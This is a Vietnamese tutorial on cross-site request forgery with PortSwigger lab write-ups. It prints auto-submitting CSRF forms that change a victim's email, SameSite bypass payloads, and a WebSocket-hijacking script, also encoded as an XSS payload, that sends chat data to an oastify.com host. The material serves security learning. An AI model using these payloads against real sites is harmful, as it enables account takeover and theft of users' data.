










# **Cross-site request forgery (CSRF)** #

## **CSRF là gì ?** ##

- CSRF là một lỗ hổng bảo mật web cho phép kẻ tấn công khiến người dùng thực hiện các hành động mà họ không có ý định thực hiện, kỹ thuật tấn công giả mạo chính chủ thể của nó. Nó cho phép kẻ tấn công phá vỡ `origin policy`, được thiết kế để ngăn chặn các trang web khác nhau có thể can thiệp lẫn nhau.
- [**CheatSheet**](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.md)



## **Cách hoạt động CSRF ?** ##

- Mục đích của kẻ tấn công khi thực hiện cuộc tấn công CSRF là buộc người dùng gửi yêu cầu thay đổi trạng thái. Những ví dụ bao gồm:
  - Gửi hoặc xóa một bản ghi.
  - Gửi một giao dịch.
  - Mua một sản phẩm.
  - Thay đổi mật khẩu.
  - Gửi tin nhắn.

- Kẻ tấn công sẽ đánh lừa nạn nhân nhấp vào một URL chứa yêu cầu trái phép, được tạo thủ công một cách độc hại cho một ứng dụng Web cụ thể. Sau đó, trình duyệt của người dùng sẽ gửi yêu cầu được tạo thủ công độc hại này tới một ứng dụng Web được nhắm mục tiêu. Yêu cầu cũng bao gồm bất kỳ thông tin đăng nhập nào liên quan đến trang web cụ thể (ví dụ: cookie phiên người dùng). Nếu người dùng đang trong phiên hoạt động với ứng dụng Web được nhắm mục tiêu, thì ứng dụng sẽ coi yêu cầu mới này là yêu cầu được ủy quyền do người dùng gửi. Do đó, kẻ tấn công đã thành công trong việc khai thác lỗ hổng CSRF của ứng dụng Web.


>**Để có một cuộc tấn công CSRF cần có 3 điều kiện chính :**

- `A relevant action` : Đây có thể là một hành động đặc quyền (chẳng hạn như đổi quyền cho người dùng khác) hoặc hành động thay đổi mật khẩu người dùng.
- `Cookie-based session handling` : Việc thực hiện hành động liên quan đến việc đưa ra một hoặc nhiều yêu cầu http và trang web chỉ dựa vào cookie session để xác định người dùng.
- `No unpredictable request parameters` : Các hành động tấn công đặc quyền thì không có chứa bất kỳ tham số nào có giá trị mà kẻ tấn công không thể xác định (ví dụ: khi tấn công thay đổi mật khẩu người dùng thì chức năng thay đổi không được có nhập mật khẩu hiện tại).

> **Vậy để thành công trong một cuộc tấn công CSRF ta cần thực hiện những việc sau:**

- Thành công của một cuộc tấn công CSRF phụ thuộc vào phiên của người dùng với một ứng dụng dễ bị tấn công. Cuộc tấn công sẽ chỉ thành công nếu người dùng đang trong phiên hoạt động với ứng dụng dễ bị tấn công.

- Kẻ tấn công phải tìm một URL hợp lệ để thủ công độc hại. URL cần có hiệu ứng thay đổi trạng thái đối với ứng dụng đích.

- Kẻ tấn công cũng cần tìm đúng giá trị cho các tham số URL. Nếu không, ứng dụng đích có thể từ chối yêu cầu độc hại.

>**Các lỗ hổng CSRF phổ biền và điểm yếu trong việc triển khai CSRF Token**

- Một số lỗ hổng CSRF phổ biến nhất là do lỗi trong quy trình xác minh mã thông báo CSRF. Đảm bảo quy trình CSRF của bạn không có bất kỳ điểm yếu nào trong số này:
  - Trong một số ứng dụng, quy trình xác minh bị bỏ qua nếu mã thông báo không tồn tại. Điều này có nghĩa là kẻ tấn công chỉ cần tìm mã chứa thông tin mã thông báo và xóa mã đó, ứng dụng không thực hiện xác thực mã thông báo.
  - CSRF token không được liên kết với phiên người dùng.
  - Trong một số ứng dụng, việc sử dụng phương thức GET thay vì phương thức POST sẽ khiến quá trình xác thực CSRF không hoạt động bình thường. Kẻ tấn công chỉ cần chuyển từ POST sang GET và dễ dàng bỏ qua quá trình xác minh.
  - Mã thông báo CSRF được sao chép vào cookie.

## **Các loại tạo CSRF TOKEN** ##
>
> **Synchronizer Token Pattern**

- Một mã thông báo ngẫu nhiên được tạo bởi ứng dụng web và gửi tới trình duyệt. Mã thông báo có thể được tạo một lần cho mỗi phiên người dùng hoặc cho mỗi yêu cầu. Mã thông báo theo yêu cầu an toàn hơn mã thông báo theo phiên vì khoảng thời gian để kẻ tấn công khai thác mã thông báo bị đánh cắp là tối thiểu.



> **Double Submit Cookie Pattern**

- Khi sử dụng mẫu Double Submit Cookie, mã thông báo không được ứng dụng web lưu trữ. Thay vào đó, ứng dụng web đặt mã thông báo trong cookie. Trình duyệt sẽ có thể đọc mã thông báo từ cookie và gửi nó dưới dạng tham số yêu cầu trong các yêu cầu tiếp theo.



## **Cách phòng chống tấn công CSRF** ##

- `Sử dụng captcha, các thông báo xác nhận`: Captcha được sử dụng để nhận biết đối tượng đang thao tác với hệ thống là con người hay không. Các thao tác quan trọng như “đăng nhập” hay là “chuyển khoản” ,”thanh toán” thường là hay sử dụng captcha. Những chức năng quan trọng như reset mật khẩu, xác nhận thay đổi info của account cũng nên gửi url qua email đã đăng ký để người dùng có thể click vào xác nhận.
- `Sử dụng csrf_token`: token này sẽ thay đổi liên tục trong phiên làm việc, và khi thay đổi thông tin gửi kèm thông tin token này. Nếu token được sinh ra và token được gửi lên ko trùng nhau thì loại bỏ request.
- `Sử dụng cookie riêng biệt cho trang admin`: Nên để trang quản trị ở một subdomain riêng để chúng không dùng chung cookies với front end của sản phẩm. Ví dụ nên đặt là admin.topdev.vn hay hơn là topdev.vn/admin.
- `Kiểm tra IP`: Một số hệ thống quan trọng chỉ cho truy cập từ những IP được thiết lập sẵn, hoặc chỉ cấp phép truy cập quản trị qua IP local hoặc VPN.

- `SameSite Cookie`: Thuộc tính cookie SameSite đi kèm với ba giá trị có thể - `Strict`, `Lax`, or `None`.
Phần lớn các trình duyệt dành cho thiết bị di động và tất cả các trình duyệt dành cho máy tính để bàn đều hỗ trợ thuộc tính này.
  - Nếu `SameSite = Strict`. Về mặt người dùng, cookie sẽ chỉ được gửi nếu trang web dành cho cookie khớp với trang web hiện được hiển thị trên thanh URL của trình duyệt.
  
  

  - Nếu `SameSite = Lax` Khi bạn đặt thuộc tính SameSite của cookie thành Lax, cookie sẽ được gửi cùng với GET request được tạo bởi bên thứ 3.
  xx
    - Chỉ chấp nhận GET request, thực ra thì nó chấp nhận các phương thức request khác như GET, HEAD, OPTIONS, TRACE. Vì đây chính là các kiểu request được cho là "An Toàn" được định nghĩa trong phần 4.2.1 của RFC 7321. Nhưng ở đây chúng ta chỉ quan tâm đến GET request mà thôi.

## **LAB CSRF** ##

> ### **CSRF vulnerability with no defenses**

- Đề bài đã yêu câu chúng ta phải tạo một script để thay đổi email người dùng khi nhập vào một url.
- script như sau :

```javascript
<form method="POST" action="https://0a7f00a203b4d7f4c1824a2700b700ca.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="admin@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
```

- Khi người dùng nhập vào url thì nó sẽ thực hiện bắt chéo trang web và gửi request đến và thay đổi mật khẩu người dụng.

> ### **CSRF where token validation depends on request method**

- Sau khi đọc source ta đã thấy đối với bài này chúng ta cần có mã csrf token để xác thực nếu không request sẽ bị từ chối.


- Nhưng có một điều lạ ở đây nếu tôi tạo một csrf có phương thức `POST` kết quả đã thay đổi được email thành công. Nhưng nó thành công đối với tk của chính mình còn đối việc thay đổi tài khoản người dùng thì điều này sẽ khác vì mỗi tài khoản sẽ có csrf token riêng nếu mình dùng phương thức post thì mình không thể thay đổi email người dùng và chiếm quyền kiểm soát tài khoản. Chính vì thế, tôi đã thử với phương thức `GET` xem điều này có hoạt động thành công tấn công csrf hay không. Và nó đã thành công tấn công được.




- Vậy tôi đã tạo một đoạn script như sau vào một website của tôi.

```javascript
<form action="https://0a1c00fa03e6bcc0c3b54ea8005400a1.web-security-academy.net/my-account/change-email" method="GET">
  <input type="hidden" name="email" value="admin__sasdf99@gmail.com" />
  <input type="hidden" name="csrf" value="uuh6DBaFVoGitn8Qv8qRc3u0vTQyk52p" />
</form>
<script>
  document.forms[0].submit();
</script>
```

> ### **CSRF where token validation depends on token being present**

- Đối với bài này tôi đã thực hiện 2 cách test như sau:
  - Đầu tiên tôi đã thử loại bỏ CSRF token, request vẫn gửi thành công.
  - Tôi đã thử chuyển phương thức `POST` thành `GET`

- Sau 2 lần thử nghiệm tôi đã viết script tấn công như sau:

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a750014045940adc38c42af00a60027.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="admin1&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

> ### **CSRF where token is not tied to user session**

- Sau những lần tôi thử nghiệm thì sau mỗi lần tôi thay đổi email của người dùng thì `csrf token` nó sẽ thay đổi sau những lần tôi đổi email.
- Vì đề bài đã cho tôi 2 tài khoản. Tôi liền nghĩ vậy mục đích đề ra cung cấp cho tôi 2 tài khoản là gì?.
- Dường như tôi đặt ra nghi vấn liệu nếu tôi sử dụng csrf token của tài khoản khác thay vào tài khoản mình liệu mình có thành công update được email hay không.


- tôi đã thử lấy csrf token của tài khoản `carlos` và tạo một request gửi đi để thay đổi email của người dùng tài khoản `wiener` và điều ấy đã thành công vậy tôi chỉ cần lấy crsf token của tôi thay đổi email tài khoản khác ^_^.


- Vậy tôi đã viết một script kết hợp với mã csrf token hiện tại của tôi.

```javascript
<form action="https://0a7100fb039d9f81ce1a5b4700e30090.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="admin&#95;999&#64;gmail&#46;com" />
  <input type="hidden" name="csrf" value="M1s5glQQq8kFfNIPELORwYqoweiQGbJw" />
  <input type="submit" value="Submit request" />
</form>
<script>
  document.forms[0].submit();
</script>
```

> ### **CSRF where token is tied to non-session cookie**

- Đối với bài này tôi đã thử nghiệm một số phương pháp tôi đã thấy ứng với mỗi tài khoản sẽ có cookie `csrfkey` khác nhau, và duy nhất csrf token nếu mình thay đổi csrf token của tài khoản khác vẫn không thể thay đổi email. Vậy tôi đã thử thay đổi `csrfkey` của tài khoản khác thì có thể thay đổi email hay không.
- Nhưng điều ấy vẫn không hoàn toàn thành công nhưng tôi đã thử thay đổi `csrfkey` và `csrf token` đến từ tài khoản `carlos` vào tài khoản `wiener` thì vẫn có thể thay đổi tài khoản email tài khoản `wiener`.
- Chính vì điều đó, tôi đã viết một script để thay đổi email người dùng khi nhập vào link với csrf token và csrfkey của tôi. Vấn đề tôi tìm thấy ở đây là trang web nhận biết request của người qua `session_cookie` đồng thời kiểm tra xem csrf token và csrfkey là một cặp nhất định. Nhưng khi một session cookie được tạo ra thì csrfkey được tạo ra vậy nhiệm vụ của mình là làm sao injection csrfkey của mình cho nạn nhân.

- Tôi đã thử chức năng search+thêm csrfkey vào đó thì tôi thấy mình có thể thay đổi csrfkey của mình.



- Từ đấy, tôi đã viết script như sau:

```javascript
<html>
  <body>
    <form action="https://0a2700870404dd73c06231bd00e400eb.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="admin1111&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="hDS6NGfzvoOnmMbbaHcTW15xTKhQltvi" />
    </form>
          
  </body>
</html>

```

> ### **CSRF where token is duplicated in cookie**

- Ở với bài này đề ra sử dụng kỹ thuật ngăn chặn CSRF `double submit`.

- `double submit` ở đây có nghĩa là nó có xác thực csrf token trên cả cookie và value form. Hai giá trị ấy hoàn toàn giống nhau.



- Vậy chúng ta hãy nghĩ cách làm sao để có thể thay đổi csrf trong cookie của ngưởi dùng.Tương tự bài trên chúng ta có thể thay đổi qua chức năng tìm kiếm search.

```javascript
<html>
  <body>
    <form action="https://0a15006403ff0d65c01d360e00a00024.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="admin&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="mPK51SRBoD22X3MeVX3II0Ryn58gNw3o" />
    </form>
         
  </body>
</html>
```

> ### **SameSite Lax bypass via method override**

- Ở với bài này chúng ta hãy đi tìm hiểu samesite là gì ?
  - Cookie samesite chỉ dẫn chỗ trình duyệt kiểm soát xem cookie có được gửi cùng request của trang web bên thứ 3 tạo ra hay không.
- Có 2 loại samesite:
  - Strict
    - Như cái tên đã cho thấy rằng, đây là tùy chọn trong đó quy định Same-Site được áp dụng nghiêm ngặt. Khi thuộc tính SameSite được đặt là Strict, cookie sẽ không được gửi cùng với các request được bắt đầu bởi các trang web của bên thứ 3.
    - Đặt cookie là Strict có thể ảnh hưởng tiêu cực đến trải nghiệm duyệt web. Ví dụ: nếu bạn nhấp vào 1 liên kết dẫn đến trang profile của Facebook, và Facebook.com đặt cookie của nó là SameSite=Strict thì bạn không thể tiếp tục redirect trên Facebook trừ khi bạn đăng nhập lại vào Facebook. Lý do là vì Cookie của Facebook không được gửi kèm với request này.
  - Lax
    - Khi bạn đặt thuộc tính SameSite của cookie thành Lax, cookie sẽ được gửi cùng với GET request được tạo bởi bên thứ 3.
    - Tại sao lại chỉ chấp nhận GET request, thực ra thì nó chấp nhận các phương thức request khác như GET, HEAD, OPTIONS, TRACE. Vì đây chính là các kiểu request được cho là "An Toàn" được định nghĩa trong phần 4.2.1 của RFC 7321. Nhưng ở đây chúng ta chỉ quan tâm đến GET request mà thôi.
    - Với ví dụ bên trên, do phương thức POST là kiểu HTTP "không an toàn" nên Cookie k được gửi khi SameSite=Lax.

- [Tài liệu tham khảo về same site](https://insights.magestore.com/posts/samesite-cookie#:~:text=Samesite%20cookie%20l%C3%A0%20g%C3%AC,kh%C3%B4ng%20th%E1%BB%83%20l%E1%BA%A5y%20%C4%91%C6%B0%E1%BB%A3c%20Cookie.)

- Đối với bài này sau khi tôi đã thử gửi request tôi đã nhận thấy họ đã sử dụng samesite và thường được mặc định sử dụng samesite:`lax`.



- Như ta đã biết đối với `Lax` nó sẽ chỉ chấp nhận phương thức `get` và tôi đã thử nghiệm bằng cách ghi đè phương thức.

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ab500b003b59f80d0573bcd00620076.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="admin111&#64;gmail&#46;com" />
      <input type="hidden" name="&#95;method" value="POST" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

> ### **SameSite Strict bypass via client-side redirect**

- Đối với bài này đề ra đã sử dụng `samesite = strict`, vậy vấn đề ở đây là chúng ta làm sao để bypass qua samesite, `strict` đã ngăn chặn việc chúng ta bắt chéo trang gửi kèm cookie theo request.

- Tôi đã thử chức năng comment, khi tôi post comment thì sau khi post nó sẽ thực hiện js để quay lại script.



- Và tôi đã đi tìm hiểu về source js ấy.

-

- Vậy chúng ta co thể thấy nó sẽ dùng window.location để chuyển lại trang web. Chúng ta có thể vận dụng lỗ hổng bằng cách thực hiện truy vấn `/post/comment/confirmation?postId=9/../../my-account`

- Tôi đã viết một script như sau:

```javascript
<script>
    document.location = "https://0a35007504e2dda8c22fe37d007f002c.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=admin111%40gmail.com%26submit=1";
</script>
```

>### **SameSite Strict bypass via sibling domain**

- `Tìm hiểu Cross-site WebSocket hijacking`

  - WebSocket là một giao thức hai chiều được khởi tạo qua HTTP. Được sử dụng trong các ứng dụng web hiện đại để truyền dữ liệu và lưu lượng không đồng bộ khác.

- `Sự khác biệt giữa HTTP và WebSockets`

  - Hầu hết giao tiếp giữa trình duyệt web và trang web đều sử dụng HTTP. Với HTTP sẽ có request và response. Và thông thường response sẽ phản hồi ngay lập tức và hoàn tất giao tiếp.
  - Một số trang web hiện đại sử dụng WebSockets. Các kết nối WebSocket được bắt đầu qua HTTP và thường tồn tại lâu dài. Tin nhắn có thể được gửi theo một trong hai hướng vào bất kỳ lúc nào và không mang tính chất giao dịch. Kết nối thường sẽ mở và không hoạt động cho đến khi client hoặc server sẵn sàng gửi tin nhắn.
- `Các kết nối WebSocket được thiết lập như thế nào?`

```javascript
var ws = new WebSocket("wss://normal-website.com/chat");
```

- Giao thức wss thiết lập WebSocket qua kết nối TLS được mã hóa, trong khi giao thức ws sử dụng kết nối không được mã hóa.

- Một cuộc tấn công chiếm quyền điều khiển WebSocket chéo trang thành công thì sẽ cho phép kẻ tấn công :
  - Thực hiện các hành động trái phép giả dạng người dùng nạn nhân.
  - Truy xuất dữ liệu nhạy cảm mà người dùng có thể truy cập.

- Chúng ta hãy bắt tay tìm hiều về đề bài này, thông qua những kiến thức mình nêu trên. Tôi đã đọc file js xem nó đã gửi websocket như thế nào?

```javascript
(function () {
    var chatForm = document.getElementById("chatForm");
    var messageBox = document.getElementById("message-box");
    var webSocket = new WebSocket(chatForm.getAttribute("action"));

    webSocket.onopen = function (evt) {
        writeMessage("system", "System:", "No chat history on record")
        webSocket.send("READY")
    }

    webSocket.onmessage = function (evt) {
        var message = evt.data;

        if (message === "TYPING") {
            writeMessage("typing", "", "[typing...]")
        } else {
            var messageJson = JSON.parse(message);
            if (messageJson && messageJson['user'] !== "CONNECTED") {
                Array.from(document.getElementsByClassName("system")).forEach(function (element) {
                    element.parentNode.removeChild(element);
                });
            }
            Array.from(document.getElementsByClassName("typing")).forEach(function (element) {
                element.parentNode.removeChild(element);
            });

            if (messageJson['user'] && messageJson['content']) {
                writeMessage("message", messageJson['user'] + ":", messageJson['content'])
            }
        }
    };

    webSocket.onclose = function (evt) {
        writeMessage("message", "DISCONNECTED:", "-- Chat has ended --")
    };

    chatForm.addEventListener("submit", function (e) {
        sendMessage(new FormData(this));
        this.reset();
        e.preventDefault();
    });

    function writeMessage(className, user, content) {
        var row = document.createElement("tr");
        row.className = className

        var userCell = document.createElement("th");
        var contentCell = document.createElement("td");
        userCell.innerHTML = user;
        contentCell.innerHTML = content;

        row.appendChild(userCell);
        row.appendChild(contentCell);
        document.getElementById("chat-area").appendChild(row);
    }

    function sendMessage(data) {
        var object = {};
        data.forEach(function (value, key) {
            object[key] = htmlEncode(value);
        });

        webSocket.send(JSON.stringify(object));
    }

    function htmlEncode(str) {
        if (chatForm.getAttribute("encode")) {
            return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
                var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
                return lookup[c];
            });
        }
        return str;
    }
})();
```

- Tôi đã nghĩ cách làm sao có thể lấy nội dung chat bot gửi về cho mình. Và tôi đã thử viết một script như sau:

```javascript
<script>
    var ws = new WebSocket('wss://0ae500d5033d7b26c305897c00990069.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://c4h1s9l1is2n6jwkewf4ukyprgxalz.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```


- Tôi thấy điều khả khi ở chỗ `Access-Control-Allow-Origin: https://cms-0ae500d5033d7b26c305897c00990069.web-security-academy.net`. Sau đó tôi truy cập vào đường link tôi đã thấy một trang đăng nhập mà phần tài khoản có thể xss. Tôi đã tận dụng điều này và encode script trên và tạo một script tấn công như sau:

```javascript
<script>
    document.location = "https://cms-0ae500d5033d7b26c305897c00990069.web-security-academy.net/login?username=%3Cscript%3E%0A%20%20%20%20var%20ws%20%3D%20new%20WebSocket%28%27wss%3A%2F%2F0ae500d5033d7b26c305897c00990069.web-security-academy.net%2Fchat%27%29%3B%0A%20%20%20%20ws.onopen%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20%20%20ws.send%28%22READY%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20ws.onmessage%20%3D%20function%28event%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28%27https%3A%2F%2F1prqdy6q3hncr8h9zl0tf9jec5iy6n.oastify.com%27%2C%20%7Bmethod%3A%20%27POST%27%2C%20mode%3A%20%27no-cors%27%2C%20body%3A%20event.data%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2Fscript%3E&password=anything";
</script>
```
